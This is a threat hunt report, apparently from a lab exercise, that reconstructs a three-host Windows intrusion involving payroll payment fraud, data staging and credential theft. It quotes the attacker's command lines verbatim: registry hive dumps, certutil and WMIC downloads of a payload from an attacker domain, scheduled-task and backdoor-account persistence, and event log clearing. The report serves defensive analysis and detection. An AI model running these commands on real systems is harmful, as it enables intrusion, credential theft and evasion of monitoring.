

# Threat Hunt Report - **BROKER** - Multi-Host Kill Chain Reconstruction
**Telemetry Source:** Microsoft Defender for Endpoint   
**Hunt Date:** 2026-01-15  
**Analyst:** Thong Huynh   
**Classification:** Fraud / Data Theft   
**Threat Hunt Engineer:** SANCLOGIC

---

## Executive Summary

This report documents the reconstruction of a multi-host intrusion affecting three systems within the environment: **AS-PC1**, **AS-PC2**, and **AS-SRV**. The compromise originated with the execution of a masqueraded payload on AS-PC1 under the user context of `sophie.turner` and expanded through deliberate lateral movement across the environment over approximately 90 minutes.

The actor demonstrated hands-on-keyboard tradecraft throughout, including offline credential harvesting, adaptive lateral movement technique selection, environment-wide persistence layering, and structured anti-forensic cleanup before terminating activity. The behavior pattern is consistent with a controlled operator or red team engagement rather than commodity malware.

**Key Outcomes Identified:**
- Full kill chain reconstructed across three hosts
- Credential access mechanism confirmed via registry hive extraction
- BACS_Payments_Dec2025.ods actively targeted for payment fraud: opened from \AS-SRV\Payroll\ and edited across 3 confirmed save cycles, consistent with manipulation of payroll/bank payment data for fraudulent redirection
- Bulk share data staged for likely exfiltration: client rate cards, signed contracts, contractor DBS certificates, IR35 determinations, and Right to Work documents across 73 files archived as Shares.7z
- Persistence mechanisms deployed on all three hosts
- No confirmed exfiltration event observed within the telemetry window

---

## Environment

| Item | Detail |
|---|---|
| Telemetry Source | Microsoft Defender for Endpoint |
| Primary Host | AS-PC1 |
| Secondary Hosts | AS-PC2, AS-SRV |
| Initial Victim Account | sophie.turner |
| Lateral Movement Account | david.mitchell |
| Backdoor Account Created | svc_backup |
| Telemetry Start | 2026-01-15T03:46:55.286Z |

> **Telemetry Boundary Note:** MDE onboarding executed at `03:46:55Z` via `cmd.exe /C WindowsDefenderATPLocalOnboardingScript.cmd`. The initial payload was already active prior to this timestamp. The delivery vector (likely phishing) falls outside the available telemetry window.

---

## Kill Chain Overview

```
[Initial Access]         AS-PC1 - sophie.turner double-clicks disguised payload
        ↓
[C2 Established]         Beacon to cdn.cloud-endpoint.net:443 within 15 seconds
        ↓
[Discovery]              Operator runs manual recon (whoami, ipconfig, net view)
        ↓
[Credential Access]      SAM + SYSTEM hives exported offline (04:13Z)
        ↓
[Persistence]            AnyDesk deployed to AS-PC1 with unattended password
        ↓
[Lateral Movement]       WMIC + PsExec fail → RDP succeeds via david.mitchell (04:39Z)
        ↓
[Pivot - AS-PC2]         Admin account activated, AnyDesk redeployed, payload staged
        ↓
[Lateral Movement]       WMIC succeeds from AS-PC2 to AS-SRV as Administrator (04:53Z)
        ↓
[Pivot - AS-SRV]         Interactive RDP as as.srv.administrator (04:55Z)
        ↓
[Data Access]            BACS_Payments_Dec2025.ods opened and manipulated from \\AS-SRV\Payroll\
        ↓
[Persistence]            Scheduled task + AnyDesk deployed on AS-PC2 and AS-SRV
        ↓
[Staging]                Shares.7z archives C:\Shares\ tree (73 files, 5 directories) relocated to C:\Shares\Clients\
        ↓
[Anti-Forensics]         Event logs cleared across all channels (05:07Z)
        ↓
[Credential Theft]       SharpChrome loaded reflectively into notepad.exe (05:09Z)
```

---

<details>
<summary><h2>Phase 1 - Initial Access</h2></summary>

**Timestamp:** Pre-telemetry / confirmed active by `03:47Z`  
**Host:** AS-PC1  
**User:** sophie.turner  

The entry point was a file named `daniel_richardson_cv.pdf.exe` located in:

```
C:\Users\Sophie.Turner\Downloads\Daniel_Richardson_CV\
```

The double-extension naming convention (`.pdf.exe`) is a well-documented masquerading technique that exploits default Windows behavior of hiding known file extensions. The file was launched via `explorer.exe`, confirming manual double-click execution by the user rather than any scripted or automated delivery mechanism.

**Payload Hash (SHA256):**
```
48b97fd91946e81e3e7742b3554585360551551cbf9398e1f34f4bc4eac3a6b5
```

**MITRE ATT&CK:**
- T1204.002 - User Execution: Malicious File
- T1036.007 - Masquerading: Double File Extension

</details>

---

<details>
<summary><h2>Phase 2 - Command & Control</h2></summary>

**Timestamp:** `2026-01-15T03:47:10.786Z`  
**Host:** AS-PC1  

Within approximately 15 seconds of the payload executing, an outbound TLS connection was established to adversary-controlled infrastructure:

```
cdn.cloud-endpoint.net → 104.21.30.237:443
```

A secondary domain was also observed serving as a payload staging server:

```
sync.cloud-endpoint.net
```

The near-immediate beacon, combined with the operator-driven activity observed shortly after, is consistent with a C2 implant awaiting instructions rather than autonomous malware execution. The payload was already active prior to MDE onboarding, suggesting it had been running for some time before telemetry visibility was established.

**MITRE ATT&CK:**
- T1071.001 - Application Layer Protocol: Web Protocols
- T1105 - Ingress Tool Transfer

</details>

---

<details>
<summary><h2>Phase 3 - Discovery</h2></summary>

**Timestamp:** `03:58Z – 04:01Z`  
**Host:** AS-PC1  

Following an approximately 11-minute gap consistent with operator review of the initial beacon, a series of manual reconnaissance commands were executed in sequence:

```
whoami.exe
hostname.exe
ipconfig.exe /all
net.exe user
net.exe localgroup administrators
net.exe view
```

This pattern - identity confirmation, network profiling, share enumeration, privilege review - represents standard operator triage behaviour. The sequential, human-paced execution cadence (as opposed to scripted batch execution) reinforces the conclusion of hands-on-keyboard activity.

**MITRE ATT&CK:**
- T1033 - System Owner/User Discovery
- T1082 - System Information Discovery
- T1016 - System Network Configuration Discovery
- T1069.001 - Permission Groups Discovery: Local Groups

</details>

---

<details>
<summary><h2>Phase 4 - Credential Access</h2></summary>

**Timestamp:** `2026-01-15T04:13:32Z`  
**Host:** AS-PC1  
**User:** sophie.turner  
**Process:** `C:\Windows\System32\reg.exe`  

The operator exported both the SAM and SYSTEM registry hives to a world-writable staging location:

```
reg.exe save HKLM\SAM C:\Users\Public\sam.hiv
reg.exe save HKLM\SYSTEM C:\Users\Public\system.hiv
```

**Technical Significance:**

The SAM hive stores local account NTLM password hashes. The SYSTEM hive contains the boot key (SysKey) required to decrypt those hashes. Together, they enable complete offline extraction of all local account credentials without touching LSASS - a technique that evades many memory-based detection controls.

This is the only supported credential access mechanism observed prior to lateral movement. No LSASS access, Procdump usage, comsvcs.dll invocation, or Mimikatz execution was observed. The `david.mitchell` credentials subsequently used for RDP are assessed to have originated from this extraction.

**Files Created:**
```
C:\Users\Public\sam.hiv
C:\Users\Public\system.hiv
```

**MITRE ATT&CK:**
- T1003.002 - OS Credential Dumping: Security Account Manager

</details>

---

<details>
<summary><h2>Phase 5 - Persistence: Remote Access Tool</h2></summary>

**Timestamp:** `04:03Z – 04:11Z`  
**Host:** AS-PC1 (subsequently AS-PC2 and AS-SRV)  

AnyDesk was downloaded to AS-PC1 using the native Windows binary `certutil.exe` - a well-documented living-off-the-land technique for bypassing application whitelisting and download controls:

```
certutil -urlcache -split -f https://download.anydesk.com/AnyDesk.exe C:\Users\Public\AnyDesk.exe
```

**AnyDesk SHA256:**
```
f42b635d93720d1624c74121b83794d706d4d064bee027650698025703d20532
```

Following installation, the tool was configured for unattended access with a password `intrud3r!` set via the `--set-password` flag. The configuration was written to:

```
C:\Users\Sophie.Turner\AppData\Roaming\AnyDesk\system.conf
```

AnyDesk was subsequently redeployed in identical fashion on both AS-PC2 and AS-SRV, establishing a persistent out-of-band remote access channel independent of the C2 implant. This layering ensures continued access even if one mechanism is discovered and removed.

**MITRE ATT&CK:**
- T1219 - Remote Access Software
- T1105 - Ingress Tool Transfer

</details>

---

<details>
<summary><h2>Phase 6 - Lateral Movement</h2></summary>

### Initial Attempts (Failed)

**Timestamp:** `04:20Z – 04:25Z`  
**Source:** AS-PC1  
**Target:** AS-PC2  

The operator first attempted remote execution via two methods, neither of which produced confirmed successful execution on AS-PC2:

```
WMIC.exe /node:AS-PC2 /user:Administrator ...     [04:20:53Z]
PsExec.exe -accepteula \\AS-PC2 -u AS-PC2\Administrator ...   [04:25:42Z]
```

The absence of corresponding process execution telemetry on AS-PC2 following these attempts indicates failure - likely due to firewall restrictions or service availability at the time.

### Successful Pivot via RDP

**Timestamp:** `04:39:57Z – 04:40:03Z`  
**Source:** AS-PC1 (10.1.0.154)  
**Target:** AS-PC2 (10.1.0.183)  
**Account:** david.mitchell  

After the failed remote execution attempts, the operator pivoted to interactive RDP using `mstsc.exe`. Authentication succeeded using `david.mitchell` credentials - assessed as harvested from the SAM extraction performed at 04:13Z.

```
LogonType: Network      [04:39:57.842Z]
LogonType: RemoteInteractive  [04:40:03.648Z]
```

This adaptive technique selection - trying two methods before switching to a third - is characteristic of a skilled operator working through environmental constraints rather than following a fixed playbook.

**MITRE ATT&CK:**
- T1047 - Windows Management Instrumentation
- T1021.002 - Remote Services: SMB/Windows Admin Shares
- T1021.001 - Remote Services: Remote Desktop Protocol

</details>

---

<details>
<summary><h2>Phase 7 - AS-PC2 Post-Exploitation</h2></summary>

**Anchor Timestamp:** `04:39:57Z`  
**Host:** AS-PC2  
**Operator Account:** david.mitchell  

AS-PC2 was rapidly operationalised as a secondary staging and lateral movement node. The following sequence occurred within approximately 15 minutes of initial access:

### Privilege Escalation

At `04:40:31Z`, within 34 seconds of landing, the built-in Administrator account was activated:

```
net.exe user Administrator /active:yes
net1 user Administrator **********
```

This was orchestrated by the malicious payload (`RuntimeBroker.exe -Embedding` spawning `powershell.exe`), confirming the implant was active and receiving operator instructions. The Administrator password was set immediately - consistent with the operator having obtained it via the earlier SAM extraction on AS-PC1.

### AnyDesk Redeployment

At `04:40:56Z`, AnyDesk was downloaded and configured in service mode, mirroring the AS-PC1 deployment exactly. This pattern of per-host AnyDesk installation demonstrates intent to establish persistent access on every compromised system independently.

### Payment Fraud: BACS File Manipulation

At `04:43:52Z`, the operator opened `BACS_Payments_Dec2025.ods` directly from the AS-SRV payroll share via LibreOffice from AS-PC2:
```
soffice.bin → "\\AS-SRV\Payroll\BACS_Payments_Dec2025.ods"
```

File event telemetry on AS-SRV confirms this was not passive viewing. Three distinct LibreOffice save cycles were recorded between `04:44:06Z` and `04:47:34Z`, each evidenced by a temp file creation (`~RF*.TMP`), atomic rename, and a new lock file hash - indicating the file content changed with each save. The operator was actively editing the document over approximately 3.5 minutes.

**Assessment**: This activity is consistent with payment fraud - specifically the manipulation of payee bank account details (sort codes, account numbers, or payment references) to redirect payroll or supplier payments to actor-controlled accounts. The BACS file was the primary target of this intrusion; its deliberate exclusion from the bulk archive (see Phase 9) and the hands-on editing behaviour distinguish it from opportunistic data collection.

| Timestamp | Event | Detail |
|---|---|---|
| 04:44:06 | Lock file created (hash #1) | Initial open - AS-SRV local disk |
| 04:46:20 | FileRenamed on SMB share (AS-PC2) | First save via soffice.bin |
| 04:46:20 | Temp file + lock file (hash #2) | Server-side write reflected |
| 04:46:23 | Second temp file + lock file cycle | Second save |
| 04:47:33 | Third lock file (hash #3) + temp file | Third save |

The lock file is written to `C:\Shares\Payroll\` on AS-SRV's local disk because that is where the file resides - the kernel (`ntoskrnl.exe`) is recorded as the initiating process on the server side, reflecting SMB filesystem writes from the remote LibreOffice session on AS-PC2.

> ⚠️ **Containment Priority:** The integrity of `BACS_Payments_Dec2025.ods` must be verified immediately against known-good backups. Any upcoming payment runs referencing this file should be suspended pending validation. Three confirmed modifications were made to the file content; the nature of those changes cannot be determined from telemetry alone and requires direct file review.

A LibreOffice lock file (`.~lock.BACS_Payments_Dec2025.ods#`) was created as a side-effect, providing additional forensic evidence of active file interaction rather than passive enumeration.

### Payload Redeployment and Scheduled Task

At `04:52:22Z`, the original malicious payload was re-downloaded from C2 infrastructure and renamed to masquerade as a legitimate Windows process:

```
certutil.exe -urlcache -split -f https://sync.cloud-endpoint.net/Daniel_Richardson_CV.pdf.exe C:\Users\Public\RuntimeBroker.exe
```

A scheduled task was then created for persistent execution:

```
schtasks.exe /create /tn MicrosoftEdgeUpdateCheck /tr C:\Users\Public\RuntimeBroker.exe /sc daily /st 03:00 /rl highest /f
```

Both the task name (`MicrosoftEdgeUpdateCheck`) and the binary name (`RuntimeBroker.exe`) were chosen to blend with legitimate Windows ecosystem activity.

### Lateral Movement to AS-SRV via WMIC

At `04:53:36Z`, WMIC lateral movement from AS-PC2 to AS-SRV succeeded - unlike the earlier failed attempt from AS-PC1 - using the now-activated Administrator credentials:

```
WMIC.exe /node:10.1.0.203 /user:Administrator process call create "cmd.exe /c certutil -urlcache -split -f https://sync.cloud-endpoint.net/Daniel_Richardson_CV.pdf.exe C:\Users\Public\RuntimeBroker.exe"
```

This confirms that the Administrator credentials obtained from SAM extraction were valid across multiple machines in the environment, indicating either credential reuse or a shared local administrator password configuration.

**AS-PC2 Consolidated Timeline:**

| Timestamp | Action |
|---|---|
| 04:39:57 | david.mitchell RDP login from AS-PC1 |
| 04:40:31 | Administrator account activated |
| 04:40:56 | AnyDesk downloaded and configured |
| 04:43:52 | BACS_Payments_Dec2025.ods opened from AS-SRV share |
| 04:52:22 | Payload re-downloaded and renamed RuntimeBroker.exe |
| 04:52:32 | Scheduled task MicrosoftEdgeUpdateCheck created |
| 04:53:36 | WMIC lateral movement to AS-SRV (Administrator) |
| 05:02:05 | net.exe accounts enumeration (SYSTEM context) |

</details>

---

<details>
<summary><h2>Phase 8 - AS-SRV Takeover</h2></summary>

**Timestamp:** `04:55:55Z – 04:55:58Z`  
**Source:** AS-PC2 (10.1.0.183)  
**Account:** as.srv.administrator  

Interactive RDP was initiated from AS-PC2 to AS-SRV at `04:55:43Z`:

```
mstsc.exe /v:10.1.0.203
```

Authentication on AS-SRV succeeded 12 seconds later under the `as.srv.administrator` account, progressing through Network → RemoteInteractive → Unlock logon types in rapid succession - consistent with logging into an existing session.

Note that `mstsc.exe` was launched under the `david.mitchell` process context, but the credentials supplied at the RDP dialog were those of `as.srv.administrator`. MDE records the initiating process account, not the typed credentials, which explains this discrepancy. The logon events on AS-SRV itself confirm the authenticating account.

Following interactive access, the operator replicated the same deployment sequence seen on AS-PC2:

1. **Payload deployment:** `RuntimeBroker.exe` downloaded via certutil (`04:56:52Z`)
2. **Scheduled task:** `MicrosoftEdgeUpdateCheck` created at highest privilege (`04:56:59Z`)
3. **AnyDesk:** Downloaded and installed in service mode (`04:57:05Z – 04:57:09Z`)

**AS-SRV Consolidated Timeline:**

| Timestamp | Action |
|---|---|
| 04:42:20 | david.mitchell from AS-PC2 |
| 04:53:36 | WMIC payload deployment from AS-PC2 |
| 04:55:55 | Interactive RDP as as.srv.administrator |
| 04:56:52 | RuntimeBroker.exe payload deployed |
| 04:56:59 | Scheduled task created |
| 04:57:05 | AnyDesk deployed and configured |
| 04:59:04 | Shares.7z archive created |
| 04:59:47 | Archive relocated to C:\Shares\Clients\ (blended with legitimate content, pending retrieval) |
| 05:07:42 | Event logs cleared |

</details>

---

<details>
<summary><h2>Phase 9 - Data Staging</h2></summary>

**Timestamp:** `04:59:04Z – 04:59:47Z`  
**Host:** AS-SRV  
**Account:** as.srv.administrator  

At `04:59:04Z`, a 7-Zip archive was created using the GUI binary (`7zG.exe`), indicating the operator manually selected files through the Windows Explorer interface:
```
7zG.exe a -i#7zMap308:22:7zEvent6071 -t7z -sae -- "C:\Shares.7z"
```

**Archive Details:**
```
Filename:   Shares.7z
SHA256:     6886c0a2e59792e69df94d2cf6ae62c2364fda50a23ab44317548895020ab048
```

`SensitiveFileRead` telemetry tied to the 7zG.exe process confirms the archive swept the `C:\Shares\` directory tree, capturing 73 files across 5 distinct share areas:

| Share Path | Contents |
|---|---|
| `C:\Shares\Clients\` | `Rate_Card_2025_CONFIDENTIAL.pdf` and `Terms_of_Business_SIGNED.pdf` for 12 named clients (Barclays PLC, NHS Birmingham Trust, Jaguar Land Rover, Deloitte, KPMG, GKN Aerospace, PwC, and others) |
| `C:\Shares\Compliance\` | `Insurance_Certificate_2025.pdf`, `REC_Membership_2025.pdf` |
| `C:\Shares\Contractors\DBS_Certificates\` | Criminal records check (DBS) documents for 7 named individuals |
| `C:\Shares\Contractors\IR35_Determinations\` | Tax status determination documents for 10 named contractors |
| `C:\Shares\Contractors\RightToWork\` | Right to Work verification documents for 15 named individuals |
| `C:\Shares\Contractors\SignedContracts\` | 12 signed employment contracts |
| `C:\Shares\Payroll\` | `Bank_Mandate_2025.pdf` only |

**`BACS_Payments_Dec2025.ods` is absent from the archive.** Despite the Payroll directory being partially included, the BACS file does not appear in any event tied to the archiving process. Given that it was actively edited only 11 minutes prior and confirmed present on disk, its exclusion is assessed as deliberate. Its exclusion is assessed as **deliberate**: the operator treated the BACS file as a separate, higher-value fraud instrument - accessed and manipulated directly - rather than something to be bundled with bulk collection data. The two tracks represent distinct objectives: targeted payment fraud (BACS file) and opportunistic data theft (Shares.7z).

The data exposure profile is significantly broader than payroll data alone. The archive contains commercially sensitive client rate cards and signed terms of business, alongside substantial personal data on named contractors - DBS records, tax status, right to work documentation, and bank mandate details. This constitutes a GDPR-notifiable dataset if exfiltrated.

Approximately 43 seconds after creation, the archive was relocated via `explorer.exe` to:
```
C:\Shares\Clients\Shares.7z
```

Embedding the archive within the existing share structure suggests intent to blend it with legitimate content, positioning it for later retrieval over SMB without triggering an obvious outbound transfer.

**No confirmed exfiltration event was observed** within the available telemetry window.

**MITRE ATT&CK:**
- T1074.001 - Data Staged: Local Data Staging
- T1560.001 - Archive Collected Data: Archive via Utility

</details>

---

<details>
<summary><h2>Phase 10 - Persistence: Account and Scheduled Task</h2></summary>


**Timestamp:** `04:57:47Z`  
**Host:** AS-PC1  

A backdoor local administrator account was created for persistent access independent of the compromised domain accounts:

```
net user svc_backup ******** /add
net localgroup Administrators svc_backup /add
```

The account name `svc_backup` is a common service account naming convention intended to avoid scrutiny in account listings. Combined with the AnyDesk deployment and scheduled task, this provides three independent persistence mechanisms - ensuring continued access even if individual mechanisms are discovered and remediated.

**MITRE ATT&CK:**
- T1136.001 - Create Account: Local Account
- T1098 - Account Manipulation
- T1053.005 - Scheduled Task/Job: Scheduled Task

</details>

---

<details>
<summary><h2>Phase 11 - Anti-Forensics</h2></summary>

**Timestamp:** `05:07:31Z – 05:08:09Z`  
**Host:** AS-SRV (and AS-PC2)  

Following data staging and persistence establishment, the operator executed a structured log clearing operation via PowerShell:

```
wevtutil.exe cl Security
wevtutil.exe cl System
wevtutil.exe cl Application
wevtutil.exe cl "Windows PowerShell"
```

The deliberate ordering here is notable: data was staged and relocated before log clearing occurred, and log clearing preceded the in-memory credential theft tool execution. This sequencing - operationalise, stage, clean, then harvest future credentials - reflects methodical operational security awareness.

**MITRE ATT&CK:**
- T1070.001 - Indicator Removal: Clear Windows Event Logs

</details>

---

<details>
<summary><h2>Phase 12 - In-Memory Credential Theft</h2></summary>

**Timestamp:** `05:09:53Z – 05:10:08Z`  
**Host:** AS-SRV (assessed)  

Post-cleanup, the operator loaded `SharpChrome` reflectively into memory using a process injection technique. Evidence of this activity was captured via the MDE `ClrUnbackedModuleLoaded` action type, which fires when a .NET CLR assembly is loaded without a corresponding on-disk file - a hallmark of reflective .NET loading.

The host process for the injection was `notepad.exe`, spawned with an unusual empty argument (`notepad.exe ""`). This is a common injection target due to its trusted signature, low baseline network activity, and ubiquity across Windows environments.

SharpChrome is a .NET tool designed to extract saved credentials from Chromium-based browsers by abusing the Windows Data Protection API (DPAPI). Given that this activity occurred after all lateral movement had already completed and persistence was established on all three hosts, the harvested credentials were likely intended for use in future operations rather than to support this intrusion chain.

**MITRE ATT&CK:**
- T1003 - OS Credential Dumping
- T1055 - Process Injection
- T1185 - Browser Session Hijacking (credential material target)

</details>

---

## Indicators of Compromise

### File Artifacts

| Filename | SHA256 | Notes |
|---|---|---|
| daniel_richardson_cv.pdf.exe | `48b97fd91946e81e3e7742b3554585360551551cbf9398e1f34f4bc4eac3a6b5` | Initial payload |
| RuntimeBroker.exe | `48b97fd91946e81e3e7742b3554585360551551cbf9398e1f34f4bc4eac3a6b5` | Renamed payload (same hash) |
| AnyDesk.exe | `f42b635d93720d1624c74121b83794d706d4d064bee027650698025703d20532` | Remote access tool |
| sam.hiv | - | SAM hive export |
| system.hiv | - | SYSTEM hive export |
| Shares.7z | `6886c0a2e59792e69df94d2cf6ae62c2364fda50a23ab44317548895020ab048` | Staged data archive |

### Network Infrastructure

| Indicator | Purpose |
|---|---|
| `cdn.cloud-endpoint.net` | Primary C2 beacon domain |
| `sync.cloud-endpoint.net` | Payload staging domain |
| `172.67.174.46:443` | Resolved C2 IP |

### Accounts

| Account | Role |
|---|---|
| sophie.turner | Initial victim - AS-PC1 |
| david.mitchell | Lateral movement credential - AS-PC1 → AS-PC2 |
| administrator (local) | Activated on AS-PC2 for escalation and WMIC pivot |
| as.srv.administrator | Interactive RDP to AS-SRV |
| svc_backup | Backdoor account created for persistence |

### Scheduled Tasks

| Task Name | Payload | Hosts |
|---|---|---|
| MicrosoftEdgeUpdateCheck | C:\Users\Public\RuntimeBroker.exe | AS-PC2, AS-SRV |

### File Paths

```
C:\Users\Sophie.Turner\Downloads\Daniel_Richardson_CV\daniel_richardson_cv.pdf.exe
C:\Users\Public\AnyDesk.exe
C:\Users\Public\RuntimeBroker.exe
C:\Users\Public\sam.hiv
C:\Users\Public\system.hiv
C:\Users\Sophie.Turner\AppData\Roaming\AnyDesk\system.conf
C:\Shares.7z
C:\Shares\Clients\Shares.7z
```

---

## MITRE ATT&CK Summary

| Tactic | Technique | ID |
|---|---|---|
| Initial Access | User Execution: Malicious File | T1204.002 |
| Initial Access | Masquerading: Double File Extension | T1036.007 |
| C2 | Application Layer Protocol: Web Protocols | T1071.001 |
| C2 | Ingress Tool Transfer | T1105 |
| Discovery | System Owner/User Discovery | T1033 |
| Discovery | System Information Discovery | T1082 |
| Discovery | System Network Configuration Discovery | T1016 |
| Discovery | Permission Groups Discovery: Local Groups | T1069.001 |
| Credential Access | OS Credential Dumping: SAM | T1003.002 |
| Credential Access | OS Credential Dumping (SharpChrome) | T1003 |
| Persistence | Remote Access Software | T1219 |
| Persistence | Create Account: Local Account | T1136.001 |
| Persistence | Scheduled Task/Job | T1053.005 |
| Persistence | Account Manipulation | T1098 |
| Lateral Movement | Remote Services: RDP | T1021.001 |
| Lateral Movement | Remote Services: SMB/Admin Shares | T1021.002 |
| Lateral Movement | Windows Management Instrumentation | T1047 |
| Collection | Data Staged: Local | T1074.001 |
| Collection | Archive Collected Data | T1560.001 |
| Defense Evasion | Indicator Removal: Clear Event Logs | T1070.001 |
| Defense Evasion | Masquerading (process names) | T1036 |
| Execution | Process Injection | T1055 |

---

## Analyst Notes

Several behavioural observations from this hunt are worth highlighting beyond the raw IOC data:

**Temporal sequencing reveals operator intent.** The operator consistently prioritised persistence and credential harvesting before interactive exploration. On both AS-PC2 and AS-SRV, AnyDesk and scheduled tasks were deployed within minutes of initial access, before any data access occurred. This suggests operational security awareness - ensuring continued access before risking detection through data activity.

**AS-PC2 became the operational hub.** While AS-PC1 was the initial beachhead, AS-PC2 was where the majority of tool orchestration occurred. Payload re-download, WMIC pivots, and payroll file access all originated from AS-PC2, not AS-PC1. This staging node pattern is common in structured red team operations.

**Failed techniques were not abandoned - they were revisited.** WMIC failed from AS-PC1 against AS-PC2, but succeeded from AS-PC2 against AS-SRV. The operator adjusted the source host rather than the technique, suggesting network segmentation or host firewall differences between the two paths.

**The BACS file and the bulk archive represent two distinct objectives.** `BACS_Payments_Dec2025.ods` was the primary fraud target - actively edited across three save cycles and deliberately excluded from the bulk archive, consistent with intent to manipulate payee bank details for fraudulent payment redirection. Its integrity must be validated against backups before any payment run proceeds. `Shares.7z` represents opportunistic bulk collection - 73 files staged on disk and pre-positioned for retrieval in a follow-on session. Neither was confirmed exfiltrated within the telemetry window, but the `AnyDesk` persistence channels remain active across all three hosts.

**SharpChrome as a post-objective capability.** The reflective loading of SharpChrome occurred after all primary objectives (persistence, data staging, log clearing) were complete. This suggests it was intended to harvest credentials for follow-on operations - not to support this specific intrusion chain. The browser credential store likely contained tokens or passwords useful for cloud platform access.

---

*Report compiled from Microsoft Defender for Endpoint telemetry. All timestamps are UTC.*
